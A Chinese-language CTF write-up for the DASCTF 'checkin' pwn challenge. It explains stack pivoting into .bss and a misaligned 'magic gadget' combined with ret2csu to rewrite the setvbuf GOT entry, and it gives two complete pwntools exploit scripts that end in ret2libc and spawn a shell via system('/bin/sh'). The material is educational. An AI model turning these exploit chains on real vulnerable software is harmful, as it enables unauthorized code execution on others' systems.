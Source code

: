 ```yaml
---
title: DASCTF2022_checkin
date: 2021/12/13 20:46:25
tags:
 - 栈迁移
 - PWN
 - magic gadget
categories:
 - DASCTF
---
```

## 总结：

通过这道题的学习和收获有：

1、栈迁移，何为栈？本来栈的定义就是rsp指针与rbp指针之间的就是栈。rsp在哪栈就在哪，因此两次leave，栈就变了两次，而真正跳到变化的栈那步是在最后的ret执行的。也算是对栈迁移又有了一点新的理解。

2、利用magic gadget修改got表

3、这道题的核心考察的就是栈迁移以及payload布局。

4、取magic gadget中的ebx时，如果ebx的值为正，则直接取，如果为负，则加0x100000000取补码。

5、如果可以的话，迁移到bss段尽量迁移到地址高一点的地方。这次打远程的那个exp就是因为bss段迁移的太低了，因为是破坏了某些数据，导致最后执行system函数的时候卡住了。
<!--more-->

## 保护策略：

![image-20220411121501353](/upload/img/image-20220411121501353.png)

## 大致思路：


![image-20220411121504338](/upload/img/image-20220411121504338.png)



可以发现，这道题就一个输入函数，没有输出函数，不过这个read具有16字节的溢出。这个没什么好想的，直接就栈迁移了。

然后输出函数也没有，泄露栈基地址这种情况就排除了，那就只能迁移到bss段。

先考虑一点，溢出16个字节仅仅只能去迁移，我们似乎没有办法去bss段布置数据。不过观察了一下汇编代码，发现read函数的第二个参数是由rbp确定的。

![image-20220411121508220](/upload/img/image-20220411121508220.png)



而我们可以利用溢出来控制rbp，因此就相当于可以控制read的输入的地方了，控制完rbp的话，只能在控制一个返回地址，既然控制rbp就已经相当于控制rsi了，那就返回0x4011BF再读一次（此时的read输入的地址已经是bss段了）。**选取往bss段输入的内容，一定要把地址抬高，我最开始选择的是往0x404100这里写入数据再迁移，到了最后执行system的过程中给卡死了**



read结束之后，又到了leave;ret指令。**leave指令就是mov rsp;rbp  pop rbp**；

执行leave指令的时候，我们的rbp是什么？是我们要控制read函数的rsi来设定的rbp（它现在是bss段地址）

我还是用实际的数据来举例一下吧。假设我第一次控制rbp为（0x404600+0xa0），那rsi的值就是0x404600（因为buf为-0xa0）（即我们输入的数据是从0x404600处开始输入的）我们可以输入0xB0个数据，因此在0x404600+0xa0这个地方写入0x404600。

此时执行read结束后的leave指令是什么情况？（如下图）

![image-20220411121513742](/upload/img/image-20220411121513742.png)

![image-20220411121517837](/upload/img/image-20220411121517837.png)

![image-20220411121521819](/upload/img/image-20220411121521819.png)

![image-20220411121525688](/upload/img/image-20220411121525688.png)

总结一下上面的过程，**原本read读入完我们的数据，<font color=#FF0000 >rbp指向的才是我们想跳转的地方（并非rbp本身）</font>而rbp本身距离我们想跳转的还有0xa0个字节，不过至少rbp就在bss段，执行了第一次leave之后，<font color=#FF0000 >rsp也就变成了rbp的值（同时由于pop rbp，此时的rbp又变成了rbp当初所指向的内容）</font>，此时已经迁移到bss段了（只不过我们还要再迁移到我们布置的数据那里）因此再来一次leave（这个是第二次read输入过去的），由于leave里的mov rsp,rbp，rsp再次被改变，最后完成了迁移（迁移到了我们布置在bss段里的数据）**



至此的话，大体框架就已经完成了。

**剩下的就是在bss段中布局payload了，本地的话非常简单，用magic gadget去将setvbuf函数地址修改为one_gadget地址，然后调用一下setvbuf就完事了。远程的话，roderick师傅给我说，因为动态库的原因，one_gadget用不了，因此只能把setvbuf改成puts函数，然后再劫持程序执行流，完成ret2libc。**

这里先简单说一下magic gadget吧，用ROPgadget --binary checkin --opcode 015dc3  去搜这个gadget的地址。015dc3是这个gadget的机器码（IDA里是看不见的，因为这个是机器码错位得到的）。

这个gadget长这样：

```assembly
add    DWORD PTR [rbp-0x3d], ebx
nop    DWORD PTR [eax+eax*1+0x0]
repz ret
```

核心是在第一行的add上，我们可以利用ret2csu控制rbp和rbx，由此就可以用这个修改函数的got表。以这道题为例，我现在想将setvbuf的真实地址改成one_gadget地址，只需要将rbp-0x3d写成setvbuf的got地址，将ebx放成setvbuf和one_gadget二者在libc库中的偏移即可。再调用这个one_gadget，即可完成修改got表。

这个magic gadget威力还是很大的，如果上述过程不懂的可以再好好想一下或者google一下。（之所以这里不想再详细讲了，是因为我在另一篇文章中详细写了这个东西，只不过因为一些原因那篇文章暂时不能发，这里用到了就简单提一下吧）

一句话概括本题思路，利用栈迁移到bss段，调试布置payload，利用magic gadget修改setvbuf got表为打印函数，最后ret2libc即可。

## exp:

这是打本地的，用的one_gadget。

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
p=process('./ab')
e=ELF('./ab')
setvbuf_got_addr=e.got['setvbuf']
setvbuf_plt_addr=0x401064
bss_addr=0x404100+0xa0
leave_ret_addr=0x4011e2
read_addr=0x4011bf
magic_gadget=0x40113c
csu1=0x40124A
#gdb.attach(p)
payload=160*'a'+p64(bss_addr)+p64(read_addr)
p.send(payload)
payload=p64(0xdeadbeef)+p64(csu1)+p64(0x8905c)#这个0x8905c为setvbuf和one_gadget二者地址在libc库中的差值
payload+=p64(setvbuf_got_addr+0x3d)
payload+=p64(0)
payload+=p64(0)
payload+=p64(0)
payload+=p64(0)
payload+=p64(magic_gadget)
payload+=p64(setvbuf_plt_addr)
payload=payload.ljust(160,'b')
payload+=p64(0x404100)+p64(leave_ret_addr)
p.send(payload)
p.interactive()
```



比赛结束，远程的环境关闭了，不过roderick师傅远程打通了，我按照他这个思路写的，动态库换成比赛给的2.31，然后改成remote，远程也是ok的。

```python
#coding:utf-8
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
p=process('./checkin')
#p=remote('node4.buuoj.cn',27544)
e=ELF('./checkin')
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
puts_off=libc.sym['puts']
setvbuf_off=libc.sym['setvbuf']
print(hex(puts_off))
print(hex(setvbuf_off))
pop_rbp_addr=0x40113d
read_got_addr=e.got['read']
setvbuf_got_addr=e.got['setvbuf']
setvbuf_plt_addr=0x401064
bss_addr=0x404600+0xa0
leave_ret_addr=0x4011e2
read_addr=0x4011bf
magic_gadget=0x40113c
csu1=0x40124A
pop_rdi_ret=0x401253
ret_addr=0x40101a
#gdb.attach(p)
if puts_off>setvbuf_off:
    offset=puts_off-setvbuf_off
else:
    offset=puts_off-setvbuf_off+0x100000000

print(hex(offset))
payload=160*'a'+p64(bss_addr)+p64(read_addr)
p.send(payload)
payload=p64(0xdeadbeef)+p64(csu1)+p64(offset)#rbx
payload+=p64(setvbuf_got_addr+0x3d)
payload+=p64(0)
payload+=p64(0)
payload+=p64(0)
payload+=p64(0)
payload+=p64(magic_gadget)
payload+=p64(pop_rdi_ret)
payload+=p64(read_got_addr)
payload+=p64(setvbuf_plt_addr)
payload+=p64(pop_rbp_addr)#让rbp去指向0x404600（但是rbp本身是0x4046a0)，这样read结束之后触发了第一次leave，就让rsp的值为0x4046a8（这个地址指向的就是leave;ret）（此时rbp由于pop rbp，自身的值变成了0x404600），然后到ret，再次执行了leave;ret
#第二次leave，rsp才算变成了0x404608，然后ret实现了转移至布置到的system处。
payload+=p64(0x404600+0xa0)
payload+=p64(0x4011BF)
payload=payload.ljust(160,'b')
payload+=p64(0x404600)+p64(leave_ret_addr)
p.send(payload)
read_addr=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
print(hex(read_addr))
libc_base=read_addr-libc.sym['read']
print(hex(libc_base))
sys_addr=libc_base+libc.sym['system']
bin_sh_addr=libc_base+libc.search('/bin/sh').next()
payload=p64(0xdeadbeef)
payload+=p64(ret_addr)#这道题需要栈对齐，具体细节我的另一篇博客上有讲。
payload+=p64(pop_rdi_ret)
payload+=p64(bin_sh_addr)
payload+=p64(sys_addr)
payload+=p64(0xdeadbeef)
sleep(0.2)
p.send(payload)
p.interactive()
```

如果不太理解exp为什么这样写，就多调试N遍（我光调试这远程一个脚本从写到各种调试再到打通再到彻底理解，调试了73遍...)，总会有所收获的。
本人就一菜狗，如果写的有错误的地方，欢迎指正
